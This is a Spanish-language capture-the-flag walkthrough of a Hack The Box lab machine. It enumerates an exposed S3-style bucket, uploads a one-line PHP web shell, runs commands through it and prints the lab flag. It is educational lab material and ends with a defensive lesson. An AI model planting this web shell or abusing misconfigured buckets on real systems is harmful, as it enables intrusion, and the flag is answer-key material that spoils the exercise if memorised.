--------
- Tags: #cloud #CustomApplications #AWS #reconocimiento #WebSiteStructureDiscovery #BuckerEnumeration #ArbitraryFileUpload #anonymous 
-------------




Realizamos un escaneo básico con Nmap:

```bash
nmap -p- -sV 10.129.163.114
```



✅ Resultado:

- Puerto **22/tcp** → SSH
    
- Puerto **80/tcp** → HTTP (Apache 2.4.29)
    

📌 **Respuesta:** `2`



En esta siguiente tarea, nos preguntan cual es el dominio de la cuenta de email en la seccion de Contact.



Navegamos a:  
`http://10.129.163.114/#contact`

Vemos una dirección de correo terminada en:

📌 **Respuesta:** `thetoppers.htb`



## ¿Qué archivo de Linux resuelve nombres si no hay DNS?

La respuesta correcta es:

✅ **Respuesta:** `/etc/hosts`



Editamos el archivo y añadimos:

```bash
10.129.163.114  thetoppers.htb
```



## 🔎 Task 4 – Enumerar subdominios con Gobuster

Utilizamos `gobuster` con una wordlist de SecLists:



**IMPORTANTE**

Es necesario clonar el repositorio de DanielMiessLer de SecLists en /usr/share/wordlists:







Bien, ya descargado en nuestro sistema, seguiremos con la tarea:

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```



✅ **Respuesta:** `s3.thetoppers.htb`

## 💻 Task 5 – ¿Qué servicio corre en el subdominio?



Buscando en Google, `s3.thetoppers.htb` corresponde a **Amazon S3**.




## 💬 Task 6 – ¿Qué herramienta CLI interactúa con S3?






✅ **Respuesta:** `awscli`

En la siguiente, será AWS configure:



## 🌐 Task 8 – ¿Qué lenguaje de scripting utiliza el servidor?

Intentamos listar contenido:

```bash
aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
```


📛 Error. Añadimos en `/etc/hosts` también el subdominio:

```bash
10.129.163.114 s3.thetoppers.htb
```

Volvemos a lanzar el comando y vemos archivos `.php`.  





## 🧠 Escalada: Shell reversa

Creamos un archivo con una shell web:

```bash
<?php system($_GET['cmd']); ?>
```



Lo llamamos `shell.php`.

Crearemos este archivo, para poder tener funcionalidades de cmd en remoto.

📤 Lo subimos a S3:

```bash
aws s3 cp shell.php s3://thetoppers.htb --endpoint-url=http://s3.thetoppers.htb
```



📥 Verificamos que se subió:

```bash
aws s3 ls s3://thetoppers.htb --endpoint-url=http://s3.thetoppers.htb
```

📌 Entramos con:

```bash
http://thetoppers.htb/shell.php?cmd=ls
```



## 🏁 Flag de usuario

Enumeramos el sistema desde la shell web:

```bash
http://thetoppers.htb/shell.php?cmd=ls+/var/www/html
http://thetoppers.htb/shell.php?cmd=ls+/var/www/html/../..
http://thetoppers.htb/shell.php?cmd=ls+/flag.txt
```







📜 Finalmente accedemos a la flag:

```bash
http://thetoppers.htb/shell.php?cmd=cat+../flag.txt
```



📍 **Flag: `a980d99281a28d638ac68b9bf9453c2b`**

## ✅ Conclusión final

- Se accede a una web vulnerable con servicio S3 expuesto sin autenticación.
    
- Se descubre el subdominio `s3.thetoppers.htb` mediante fuerza bruta con SecLists.
    
- Se interactúa con el servicio usando AWS CLI.
    
- El bucket permite listar y subir archivos.
    
- Se sube una shell PHP, desde donde se ejecutan comandos remotos.
    
- Finalmente, se accede a la flag.
    

🧠 **Lección aprendida:** Nunca se deben exponer servicios como AWS S3 de forma pública sin restricciones. La combinación de mala configuración, falta de control de acceso y carga de archivos sin validación lleva directamente a una ejecución remota de comandos (RCE).

